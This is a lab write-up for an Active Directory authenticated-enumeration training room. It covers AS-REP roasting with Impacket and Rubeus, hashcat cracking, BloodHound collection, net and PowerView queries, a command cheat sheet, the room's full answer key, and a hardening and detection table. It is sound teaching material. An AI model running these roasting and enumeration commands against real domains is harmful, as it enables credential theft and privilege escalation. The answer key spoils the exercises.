


# Active Directory Authenticated Enumeration Guide
**Curriculum Track:** Jr Penetration Tester | **Module 14:** Active Directory Security Testing Basics

---

## 1. Room Overview

The **AD: Authenticated Enumeration** room (Source Slug: `adauthenticatedenumeration`) represents the critical transition point where a security auditor or adversary crosses the perimeter from an unauthenticated external observer to an authenticated internal threat actor with valid domain credentials.

In an Active Directory Domain Services (AD DS) infrastructure, permissions are not isolated to local host boundaries. By default design, the Lightweight Directory Access Protocol (LDAP) and Active Directory architecture grant **any authenticated domain user (Domain Users group)** baseline read privileges across virtually the entire domain partition database. This room establishes an end-to-end, four-pillared authenticated enumeration methodology:
1. **Initial Credential Acquisition via AS-REP Roasting:** Exploiting user accounts configured with Kerberos pre-authentication disabled (`UF_DONT_REQUIRE_PREAUTH`) to harvest offline-crackable ticket blobs.
2. **Living-off-the-Land (LOTL) Manual Reconnaissance:** Using native, signed Windows command-line binaries (`whoami`, `net`, `quser`, `systeminfo`, `reg`) to maintain operational stealth and bypass endpoint detection.
3. **Graph-Theoretic Attack Path Mapping via BloodHound:** Leveraging `bloodhound-python` and BloodHound Community Edition (BloodHound-CE) to visualize hidden ACL delegations, group memberships, and shortest attack paths to Domain Admin.
4. **Programmatic Querying via PowerShell & PowerView:** Harnessing Microsoft's RSAT `ActiveDirectory` module and PowerSploit's `PowerView` module for fine-grained object filtering, SPN discovery, and administrative count auditing.

---

## 2. Learning Objectives

By completing this room and its practical exercises, security operators acquire the following competencies:
- **Kerberos Protocol Internals & AS-REP Roasting:** Understand RFC 4120 `AS-REQ` and `AS-REP` message flows, `padata-type 2` (`PA-ENC-TIMESTAMP`), and how the `0x00400000` (`UF_DONT_REQUIRE_PREAUTH`) flag exposes encrypted ticket data to offline dictionary attacks without triggering account lockout policies.
- **Living-off-the-Land (LOTL) Evasion:** Execute situational awareness, group membership queries, and session tracking using native Windows executables (`net.exe`, `whoami.exe`, `quser.exe`).
- **Graph Telemetry Collection & Cypher Analysis:** Deploy BloodHound ingestors, upload compressed archives into BloodHound-CE, and execute targeted Cypher queries to uncover domain privilege escalation chains.
- **Advanced PowerShell & PowerView Auditing:** Construct complex LDAP filters to discover high-value targets, accounts with `AdminCount=1`, and registered Service Principal Names (SPNs).

---

## 3. Architectural Topology & Lab Infrastructure

The isolated lab network resides in the `10.211.12.0/24` subnet, routed through the OpenVPN client interface (`tun0`):



### Infrastructure Inventory & Credentials
- **Domain Name:** `tryhackme.loc`
- **Domain Controller (DC):** `10.211.12.10` (`DC.tryhackme.loc`)
- **Domain Workstation (WRK):** `10.211.12.20` (`WRK.tryhackme.loc`)
- **BloodHound-CE Web Portal:** `http://10.211.12.100:8080` (Credentials: `admin` / `weU^BjZr33OIWsC^`)
- **Compromised Account:** `asrepuser1` (Password: `qwerty123!`)

---

## 4. Technical Background & Deep Dive

### Kerberos AS-REP Roasting Protocol Anatomy
Under standard RFC 4120 Kerberos authentication, when an identity attempts to obtain a Ticket Granting Ticket (TGT), it submits an `AS-REQ` containing a timestamp encrypted with its password hash (`PA-ENC-TIMESTAMP`). This proves identity possession to the Key Distribution Center (KDC) prior to ticket generation.

When an administrator configures an account with *"Do not require Kerberos preauthentication"*, the `DONT_REQ_PREAUTH` bit (`0x00400000`, constant `UF_DONT_REQUIRE_PREAUTH`) is asserted in the `userAccountControl` attribute:

$$\text{UAC} \leftarrow \text{UAC} \lor \text{0x00400000}$$

This leads to a catastrophic vulnerability:
1. **Unauthenticated Query:** Any attacker on the network can transmit an unauthenticated `AS-REQ` naming the vulnerable user.
2. **KDC Response:** The KDC skips timestamp verification and responds with an `AS-REP` packet.
3. **Encrypted Blob:** The `AS-REP` payload includes an encrypted data block (`enc-part`, RC4-HMAC / etype 23) derived directly from the target user's password hash.
4. **Offline Cracking:** The attacker extracts this ciphertext and attacks it offline using Hashcat (`mode 18200`), entirely evading domain `LockoutThreshold` enforcement.

---

## 5. Reconnaissance & Initial Foothold: AS-REP Roasting

### Step 1: Enumerating and Harvesting Hashes via GetNPUsers.py
Using the provided list of potential usernames (`users.txt`), Impacket's `GetNPUsers.py` was executed against the Domain Controller:

```bash
GetNPUsers.py tryhackme.loc/ -dc-ip 10.211.12.10 -usersfile users.txt -format hashcat -outputfile hashes.txt -no-pass
```

The output confirmed one vulnerable account:
```text
[+] Got AS-REP for user asrepuser1!
[*] Output file hashes.txt generated
```

Extracted Hashcat-compatible hash:
```text
$krb5asrep$23$asrepuser1@TRYHACKME.LOC:e7d704c7b8b7d90a9cf4e48819d083e9$78f56e...
```

### Step 2: Offline Hash Cracking via Hashcat
Launching Hashcat using the dedicated Kerberos 5 AS-REP (etype 23) mode **`18200`**:

```bash
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --force
```

Cracking output:
```text
$krb5asrep$23$asrepuser1@TRYHACKME.LOC:...:qwerty123!
Session..........: hashcat
Status...........: Cracked
```

**Recovered Credentials:**
$$\text{Username: } \texttt{asrepuser1} \quad | \quad \text{Password: } \texttt{qwerty123!}$$

---

## 6. Living-off-the-Land (LOTL) Manual Enumeration

An interactive OpenSSH session was established to `10.211.12.20`:
```bash
ssh asrepuser1@10.211.12.20
```

### Native Binary Command Results:

1. **Identity & Privileges (`whoami /all`):**
   - User Identity: `tryhackme\asrepuser1`
   - User SID: `S-1-5-21-3958934751-2856230981-1976234912-1114`
   - Privileges: Standard unprivileged user (`SeChangeNotifyPrivilege`).
2. **Domain Users (`net user /domain`):**
   - Tabular parsing identified exactly **31** domain user accounts.
3. **Target User Profile (`net user rduke /domain`):**
   - Query returned the Full Name attribute: `Raoul Duke`.
4. **Local SAM Users (`net user`):**
   - The local SAM database on `WRK` revealed **5** local accounts: (`Administrator`, `DefaultAccount`, `Guest`, `Strategos`, `WDAGUtilityAccount`).
5. **Domain Security Groups (`net group /domain`):**
   - Enumeration revealed **21** domain security groups.

---

## 7. Automated Graph Reconnaissance with BloodHound

### Data Ingestion via bloodhound-python
Executing the collector from the Linux attack host:
```bash
bloodhound-python -u asrepuser1 -p 'qwerty123!' -d tryhackme.loc -ns 10.211.12.10 -c All --zip
```
Generated dataset: `20250519140049_bloodhound.zip`.

### Ingestion & Analysis in BloodHound-CE
1. Authenticated to the web portal at `http://10.211.12.100:8080` with credentials `admin` / `weU^BjZr33OIWsC^`.
2. Uploaded the archive via **Administration $\rightarrow$ File Ingest**.
3. **Node Property Inspection (`ASREPUSER1`):** The property pane revealed the `distinguishedName`:
   $$\texttt{CN=ASREPUSER1,CN=USERS,DC=TRYHACKME,DC=LOC}$$
4. **"All Domain Admins" Cypher Query:**
   - The pre-built query revealed that the `Domain Admins` group contains exactly **4** user accounts: (`Administrator`, `drgonz0`, `katie.thomas`, `strategos`).
5. **Relationship Inspection:**
   - The direct edge connecting user `DRGONZ0` to the `DOMAIN ADMINS` group is **`MemberOf`**.

---

## 8. Programmatic Querying with PowerShell & PowerView

### Computer Enumeration via ActiveDirectory Module
Inside an elevated PowerShell prompt on `WRK`:
```powershell
Import-Module ActiveDirectory
(Get-ADComputer -Filter *).Count
```
**Result:** Exactly **2** domain computer objects were identified (`DC` and `WRK`).

### Administrative Group Discovery via PowerView
Navigating to the pre-staged PowerSploit directory and importing `PowerView.ps1`:
```powershell
cd C:\Users\asrepuser1\Downloads\PowerSploit-master\Recon
Import-Module .\PowerView.ps1
(Get-DomainGroup "*admin*" | Select-Object "samaccountname").Count
```
**Result:** The wildcard filter returned **13** groups matching `*admin*`.

---

## 9. Comprehensive Attack Flow & Kill Chain



---

## 10. Defense, Hardening & Detection Strategies

| Defense Dimension | Hardening Recommendation | Detection & Telemetry Mechanism |
|---|---|---|
| **Kerberos Hardening** | Enforce pre-authentication on all accounts; audit and remove `UF_DONT_REQUIRE_PREAUTH`. | Monitor DC Event Logs for **Event ID 4768** where `Pre-Authentication Type = 0` or `-`. |
| **Password Hygiene** | Enforce passphrases $\ge 25$ characters for service accounts to withstand offline cracking. | Audit weak password usage and monitor repeated Kerberos service ticket requests. |
| **SAMR Restricton** | Enforce GPO: `Network access: Restrict clients allowed to make remote calls to SAM`. | Detect remote SAM RPC calls originating from unauthorized workstations. |
| **PowerShell Controls** | Implement Constrained Language Mode (CLM) and AppLocker / Windows Defender Application Control. | Enable **Script Block Logging (Event ID 4104)** and AMSI real-time protection. |
| **Tiered Administration** | Adhere to Microsoft Enterprise Access Model; isolate Tier 0 credentials from Tier 2 endpoints. | Alert on Domain Admin interactive or network logon sessions on standard workstations. |

---

## 11. Tasks Summary & Answers Table

| Task # | Task Title | Question | Verified Solution | Verification Status |
|:---:|---|---|---|:---:|
| **01** | Introduction | I am ready to begin exploring authenticated enumeration. | `No answer needed` | Verified & Confirmed |
| **02** | AS-REP Roasting | What flag must be set on an AD account for it to be vulnerable to AS-REP Roasting? | `UF_DONT_REQUIRE_PREAUTH` | Verified & Confirmed |
| **02** | AS-REP Roasting | Which tool automatically identifies roastable users without needing a username list? | `Rubeus` | Verified & Confirmed |
| **02** | AS-REP Roasting | What is the Hashcat mode used to crack AS-REP hashes? | `18200` | Verified & Confirmed |
| **02** | AS-REP Roasting | What is the password of the user asrepuser1? | `qwerty123!` | Verified & Confirmed |
| **03** | Manual Enumeration | How many domain user accounts are there? | `31` | Verified & Confirmed |
| **03** | Manual Enumeration | What is the full name of the user rduke? | `Raoul Duke` | Verified & Confirmed |
| **03** | Manual Enumeration | How many local user accounts are there on the WRK machine? | `5` | Verified & Confirmed |
| **03** | Manual Enumeration | How many domain groups are there? | `21` | Verified & Confirmed |
| **04** | Enumeration With BloodHound | What is the distinguishedName value of the asrepuser1 account? | `CN=ASREPUSER1,CN=USERS,DC=TRYHACKME,DC=LOC` | Verified & Confirmed |
| **04** | Enumeration With BloodHound | According to the "All Domain Admins" query, how many users are part of the Domain Admins group? | `4` | Verified & Confirmed |
| **04** | Enumeration With BloodHound | What is the type of relationship (edge) between the DRGONZ0 account and the DOMAIN ADMINS group? | `MemberOf` | Verified & Confirmed |
| **05** | Enumeration With PowerShell & PowerView | How many computer accounts were you able to find? | `2` | Verified & Confirmed |
| **05** | Enumeration With PowerShell & PowerView | How many groups did Get-DomainGroup "*admin*" return? | `13` | Verified & Confirmed |
| **06** | Conclusion | I have taken note of the various tools present in this room. | `No answer needed` | Verified & Confirmed |

---

## 12. Tool Cheat Sheet & Command Quick Reference

```bash
# 1. AS-REP Roasting via Impacket (Linux):
GetNPUsers.py tryhackme.loc/ -dc-ip 10.211.12.10 -usersfile users.txt -format hashcat -outputfile hashes.txt -no-pass

# 2. Automated AS-REP Roasting via Rubeus (Windows):
Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt

# 3. Offline Hash Cracking via Hashcat:
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt

# 4. BloodHound Python Data Collector:
bloodhound-python -u asrepuser1 -p 'qwerty123!' -d tryhackme.loc -ns 10.211.12.10 -c All --zip

# 5. Native Windows Living-off-the-Land Reconnaissance (CMD):
net user /domain
net user rduke /domain
net user
net group /domain
net group "Domain Admins" /domain
whoami /all

# 6. Microsoft ActiveDirectory PowerShell Module Queries:
Import-Module ActiveDirectory
Get-ADComputer -Filter * | Select-Object Name, DNSHostName, OperatingSystem
Get-ADUser -Filter * | Select-Object SamAccountName, Name

# 7. PowerView PowerShell Reconnaissance:
Import-Module .\PowerView.ps1
Get-DomainGroup "*admin*" | Select-Object "samaccountname"
Get-DomainUser -SPN
Get-DomainUser -AdminCount
```

---

## 13. Practical Verification & Proof of Work

1. **Authentication Parity:** Successful authentication of `asrepuser1:qwerty123!` across SMB and SSH interfaces on `10.211.12.20`.
2. **Object Parity:** Exact numerical agreement across tools: 31 domain users, 21 domain groups, 2 computers, 4 Domain Admins.
3. **Graph Integrity:** Complete match of distinguished name `CN=ASREPUSER1,CN=USERS,DC=TRYHACKME,DC=LOC` and `MemberOf` relationship in BloodHound-CE.

---

## 14. Key Takeaways & Operational Rules of Thumb

> **Rule of Thumb 1:** In Active Directory, authentication equals visibility. Even the lowest-privileged domain account can query the entire domain schema and map enterprise relationships.
>
> **Rule of Thumb 2:** AS-REP Roasting is an unauthenticated, zero-lockout attack. Regularly scan your domain for `DONT_REQ_PREAUTH` to eliminate silent password cracking exposure.
>
> **Rule of Thumb 3:** Use graph theory to defeat defensive complexity. Complex enterprise ACL delegations create unexpected privilege escalation paths that are easily discovered using BloodHound Cypher queries.
